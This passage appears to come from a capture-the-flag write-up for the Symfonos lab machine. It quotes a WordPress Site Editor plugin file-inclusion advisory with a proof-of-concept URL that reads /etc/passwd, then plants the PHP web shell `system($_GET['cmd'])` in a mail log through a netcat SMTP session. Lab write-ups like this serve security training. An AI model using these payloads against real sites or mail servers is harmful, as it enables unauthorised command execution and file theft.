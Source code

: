 ```text
e_exists( $_REQUEST['ajax_path'] ) ){                                          
    require_once $_REQUEST['ajax_path'];                                       
}                                                                              

https://plugins.trac.wordpress.org/browser/site-editor/trunk/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?rev=1640500#L5

By providing a specially crafted path to the vulnerable parameter, a remote attacker can retrieve the contents of sensitive files on the local system.

** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

According to this, we can execute os commnad using LFI method by invoking `http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd` where os command reside after `ajax_path`. 


For initial access, remember the earlier available SMTP port, we going to abuse it. Basically we will do this in a nutshell : -

1. Set mail from random user. In this case, im using my cool nickname
2. Set recipient to helios
3. Set data followed by malicious code for us to send command on attacker machine


In order to do this, we can either connect to the mail using telnet and netcat

- **Netcat**
```bash
sudo rlwrap nc -vvvv 192.168.43.194 25 

Trying 192.168.43.165...                                                                                            
Connected to 192.168.43.165.                                                                                                                 
Escape character is '^]'.                                                                                                        
                                                                                                                                                   
220                                                                                                                              
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)                                                                 
500 5.5.2 Error: bad syntax                                                                                         
502 5.5.2 Error: command not recognized                                                                             
MAIL FROM: <mark>                                                                                                                
250 2.1.0 Ok                                                                                                         
RCPT TO: Helios                                                                                                               
250 2.1.5 Ok                                                                                                         
data                                                                                                                             
354 End data with <CR><LF>.<CR><LF>                                                                                  
<?php system($_GET['cmd']); ?>                                                                                                     
250 2.0.0 Ok: queued as DD26140B94                                                                                  
```